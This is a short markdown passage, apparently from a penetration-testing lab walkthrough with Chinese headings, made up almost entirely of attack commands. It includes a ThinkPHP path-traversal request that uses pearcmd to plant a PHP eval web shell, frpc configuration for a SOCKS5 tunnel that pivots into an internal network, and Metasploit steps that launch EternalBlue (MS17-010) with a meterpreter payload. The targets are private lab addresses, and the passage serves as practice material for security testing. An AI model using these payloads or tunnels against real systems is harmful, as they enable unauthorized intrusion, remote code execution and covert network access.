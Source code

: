 

```bash
frpc.exe -c frpc.ini >frpc.txt
```

## 4.Thinkphp

http://192.168.26.101

### Thinkphp

```bash
GET /index.php?lang=../../../../../../../../../../usr/share/php/pearcmd&+config-create+/<?=@eval($_REQUEST['xxx']);?>+/www/wwwroot/127.0.0.1/thinkphp-v6.0.12/public/xxx.php HTTP/1.1
Host: 192.168.26.101
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive


```

### 上传frpc

```bash
[common]
server_addr = 192.168.28.101
server_post = 7000

[socks5_2]
plugin = socks5
remote_post = 10802
```



```bash
chmod +x frpc;frpc -c frpc.ini > frpc.txt
```

## 5.MSF

### ms17-010

```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp 
set rhost 192.168.27.100
run
```
